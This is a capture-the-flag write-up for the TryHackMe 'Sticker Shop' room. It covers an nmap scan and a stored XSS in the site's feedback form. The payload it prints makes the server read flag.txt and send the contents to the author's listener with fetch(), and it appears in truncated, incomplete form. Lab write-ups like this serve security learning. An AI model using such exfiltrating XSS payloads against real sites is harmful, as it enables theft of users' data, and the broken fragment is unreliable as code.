









Link to machine : https://tryhackme.com/room/thestickershop

# SCANNING

I performed an **nmap** aggressive scan to identify open ports and the services running on the target.



# CAPTURING THE FLAG

Since I already had the path to flag, I tried accessing it directly.



I did not have the appropriate permissions, so I visited the web site hosted on the target.



The site contained a feedback field.



I tried executing a cross site scripting payload.



My XSS payload worked, hence I modified my payload to make the server send a request to my local machine.



Upon execution, my local machine received a GET request from the server.



Hence, I used the below payload to make the server get the data from *flag.txt* and then send it to my local machine through a GET request.

```html
 response.text())  // Get the response text
    .then(data => {
      fetch("http://localhost:12345?data=" + encodeURIComponent(data));  // Send the fetched data to Netcat
    })
    .catch(err => console.error("Error fetching data:", err));
'>
```



Upon execution, I successfully received the value of the flag.



Happy Hacking !

---
